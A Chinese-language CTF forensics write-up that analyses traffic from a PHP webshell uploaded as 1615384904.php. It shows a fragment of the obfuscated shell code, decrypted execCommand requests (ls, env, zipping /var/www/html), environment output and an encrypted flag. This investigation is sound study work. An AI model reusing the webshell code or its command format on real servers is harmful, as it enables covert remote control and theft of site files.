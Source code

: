 ```php
			$R->nvoke($A[0]);
            echo substr(md5($P.$T),0,16);
            echo Q(E(@run($F),$T));
            echo substr(md5($P.$T),16);
        }else{
            $_SESSION[$V]=$F;
        }
    }
#/upload/1615384904.php 上传成功，为1615384904.php
```
- 那么我们只需要关注`1615384904.php`攻击者操作木马进行了哪些操作就好；全部导出，操作流量全加密类似：
    - 请求POST`pass=OgRUWzZ%2FDUw5ZQRbYXFQfylbVFwGfwlPOXQAWlBjNAo0Wg1fAH4KTjdfb1tkTidcOltUYjJpXAQ%3D`
    - 返回：

```
11cd6a8758984163LmIwSi9SBgguZXwBfFkRSQEEUXsvbDRDLltSA39gKAYtdVBHA3Agci5lYEh/XgYCLmIoSCxRVE4CeXR5f2A4Sy1iKAQsfApOLXIARVN8IHg=6c37ac826a2a04bc
```

- 查看代码逻辑：`post传入参数pass`->`$T密钥加密`->`$V传入class C`进而传入eval函数进行命令执行，所以我们下一步需要做的是破解木马的加密方式，[解密代码](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CTF/MISC/backdoor/jiemi.php){:target="_blank"}
    - 解得上面的POST请求为：`cmdLine=bHMK&methodName=ZXhlY0NvbW1hbmQ=` -> base64decode ->`cmdLine=ls&methodName=execCommand`
    - 返回包：`1532851276json       1532851294.php       1532851316.php       1615384904.php`

- 进一步分析得到备份命令：`cmdLine=zip www.zip -rP $APACHE_RUN_USER /var/www/html/&methodName=execCommand`
    - 从流量文件中找到`www.zip`导出，解压密码是`$APACHE_RUN_USER`也是从流量中执行`env`命令`cmdLine=ZW52Cg==&methodName=ZXhlY0NvbW1hbmQ=`解密得到：
    - 
        ```bash
        APACHE_RUN_DIR=/var/run/apache2
        APACHE_PID_FILE=/var/run/apache2/apache2.pid
        PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
        APACHE_LOCK_DIR=/var/lock/apache2
        LANG=C
        APACHE_RUN_USER=www-data
        APACHE_RUN_GROUP=www-data
        APACHE_LOG_DIR=/var/log/apache2
        PWD=/app/admin/upload
        ```
- 解压出html目录下php代码发现`flag.php`：
    - 
        ```php
        <?php
        $enc = 'aes-128-ecb';
        $flag = 'CN1Sq9tFItxZhsu3zCWbrdf6ozOL4eoKG0s71vGg/AKKnch3IL3jzwtXeCgWK5QP';
        ?>
        ```
- 观察目录下发现存在被修改的php代码：（以下为参考教程给出-。-）

![截屏2021-09-08 下午4.14.04.png](https://i.loli.net/2021/09/08/uUHT3GLDnqiRYtw.png)
